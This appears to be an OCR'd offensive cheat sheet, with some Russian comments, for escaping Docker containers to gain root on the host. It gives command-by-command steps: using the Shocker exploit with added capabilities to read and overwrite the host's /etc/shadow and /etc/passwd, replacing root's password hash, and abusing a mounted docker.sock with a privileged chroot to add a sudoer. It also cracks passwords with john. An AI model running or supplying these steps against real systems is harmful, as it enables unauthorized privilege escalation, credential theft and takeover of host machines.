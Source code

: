 > john password --format=crypt

## CAP SYS_ADMIN DAC_OVERRIDE
> docker run -it --cap-add=DAC_READ_SEARCH --cap-add=DAC_OVERRIDE myubuntu bash
#### Copy and paste the shocker.c content
> vim shocker.c

> gcc -o read shocker.c
#### Copy and paste the shocker_write.c content
> vim shocker_write.c

> gcc -o write shocker_write.c
#### Use the ./read to read files from host: ./read /host/path /container/path
> ./read /etc/shadow shadow

> ./read /etc/passwd passwd
#### Create new user and reset its password
> useradd <USER-NAME>

> echo '<USER-NAME>:<PASSWORD>' | chpasswd 
#### Update the new user details in the copied files from host
> tail -1 /etc/passwd >> passwd

> tail -1 /etc/shadow >> shadow
#### Copy the new user password hash paste it also for the root user in the shadow file. This will allow us to elevate permissions on the host.
> vim shadow
#### Use the ./write to write files from host: ./write /host/path /container/path
> ./write /etc/passwd passwd

> ./write /etc/shadow shadow
#### Connect to host over ssh using the new user (unprivileged)
> ssh privet@192.168.1.12
#### Elevate privileges to root user with the new password
> su

## CAP NO_CAP!!!
> docker run -it -v /var/run/docker.sock:/run/docker.sock docker:dind /bin/sh

> docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"

теперь можем выполнять любые команды от имени root на хостовой машине

> useradd newuser

> passwd newuser

добавляем нового юзера в sudoers
...
ssh newuser@hostname
sudo -i
PROFIT

